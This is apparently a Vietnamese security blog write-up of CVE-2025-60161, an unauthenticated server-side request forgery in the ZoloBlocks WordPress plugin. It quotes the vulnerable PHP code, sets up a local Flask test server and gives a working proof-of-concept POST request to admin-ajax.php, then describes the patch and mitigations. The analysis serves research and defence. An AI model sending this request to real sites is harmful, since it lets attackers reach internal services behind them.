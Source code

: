 # CVE-2025-60161 Analysis & POC


<!--more-->

## CVE & Basic Info
Lỗ hổng Server-Side Request Forgery (SSRF) trong BdThemes ZoloBlocks cho phép kẻ tấn công thực hiện yêu cầu giả mạo từ phía máy chủ. Sự cố này ảnh hưởng đến các phiên bản ZoloBlocks từ không xác định cho đến 2.3.11.

* **CVE ID**: [CVE-2025-60161](https://www.cve.org/CVERecord?id=CVE-2025-60161)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 2.3.11
* **Patched Versions**: 2.3.12
* **CVSS severity**: Low (5.4)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress ZoloBlocks Plugin](https://wordpress.org/plugins/zoloblocks/advanced/)

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **ZoloBlocks**: **2.3.11** (vulnerable) và **2.3.12** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

## Analysis

### Patch diff

Lỗ hổng này xuất hiện trong tệp `TemplatesV1.php`, tuy nhiên tệp này đã bị loại bỏ trong phiên bản vá lỗi.

![Diff](removed.png "TemplatesV1.php đã bị loại bỏ trong bản vá")

### Vulnerable Code 
```php {title="TemplatesV1.php - v2.3.11" hl_lines=[12]}
public function demo_import() {
    // Kiểm tra tham số đầu vào từ POST
    if (!isset($_POST['json_file_url'])) {
        wp_send_json_error('No JSON file URL provided');
        return;
    }

    // Lấy và làm sạch URL người dùng cung cấp
    $json_file_url = sanitize_text_field(wp_unslash($_POST['json_file_url']));

    // Gửi yêu cầu HTTP đến URL đó
    $response = wp_remote_get($json_file_url, ['timeout' => 30]);

    // Nếu lỗi khi fetch dữ liệu, trả JSON lỗi
    if (is_wp_error($response)) {
        wp_send_json_error('Failed to fetch JSON data');
        return;
    }

    // Lấy nội dung phản hồi và giải mã JSON
    $body    = wp_remote_retrieve_body($response);
    $data    = json_decode($body, true);
    $content = $data['content'] ?? '';

    // Trả kết quả JSON thành công cùng nội dung import
    wp_send_json_success([
        'status'   => 'success',
        'message'  => __('Pattern imported successfully!', 'zoloblocks'),
        'content'  => $content,
    ]);
}
```

{{< admonition bug >}}
Hàm `demo_import()` nhận URL từ người dùng => gửi yêu cầu HTTP (`wp_remote_get`) để tải dữ liệu JSON → giải mã và trả về kết quả qua `wp_send_json_success()`.
Vì không kiểm tra hoặc giới hạn URL, nên có thể bị lợi dụng gây **SSRF**.
{{< /admonition >}}

Hàm `demo_import()` được đăng kí làm callback cho action hook:

```php
add_action('wp_ajax_nopriv_zolo_demo_import', [$this, 'demo_import']);
```

Điều này có nghĩa là:

* Hook `wp_ajax_nopriv_` được sử dụng cho **người dùng chưa đăng nhập** (anonymous users).
* Khi client gửi request AJAX đến endpoint `/wp-admin/admin-ajax.php?action=zolo_demo_import`, WordPress sẽ gọi hàm `demo_import()`.

### Flow

{{< mermaid >}}
graph TD
A["admin-ajax.php?action=zolo_demo_import"] --> B["wp_ajax_nopriv_zolo_demo_import"]
B --> C["demo_import()"]
C --> D["sanitize_text_field()"]
D --> E["wp_remote_get(json_file_url)"]
E --> F{"is_wp_error(response)?"}
F -- Yes --> G["wp_send_json_error()"]
F -- No --> H["json_decode(body) → extract URLs"]
H --> I["wp_send_json_success()"]
{{< /mermaid >}}

## Exploit

### Local Server
Tạo local service đơn giản bằng python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def metadata():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "content": "Internal service data"
}
```

### Proof of Concept (PoC)

Gửi POST request với URL trỏ đến local service:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...

action=zolo_demo_import&json_file_url=http://127.0.0.1:8001/metadata
```

**Result**:

![Result](result.png "Nội dung đọc được từ local service")

## Conclusion

CVE-2025-60161 là một SSRF trong `demo_import()` của ZoloBlocks (≤ 2.3.11) do nhận URL từ người dùng và gọi `wp_remote_get()` mà không kiểm tra. Endpoint cho phép truy cập không xác thực (`wp_ajax_nopriv_...`). Vấn đề đã được vá trong **2.3.12**.

## Key takeaways

* Nguyên nhân: không validate/whitelist URL trước khi `wp_remote_get()`.
* Ảnh hưởng: site chạy ZoloBlocks ≤ 2.3.11; attacker có thể truy vấn dịch vụ nội bộ (SSRF).
* Khắc phục nhanh: cập nhật lên **2.3.12** hoặc chặn endpoint `zolo_demo_import`.
* Phòng ngừa: whitelist/validate URL, giới hạn egress, bảo vệ AJAX bằng nonce/quyền.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress ZoloBlocks Plugin <= 2.3.11 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/zoloblocks/vulnerability/wordpress-zoloblocks-plugin-2-3-9-server-side-request-forgery-ssrf-vulnerability?_s_id=cve) 

---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-10-31-cve-2025-60161/  

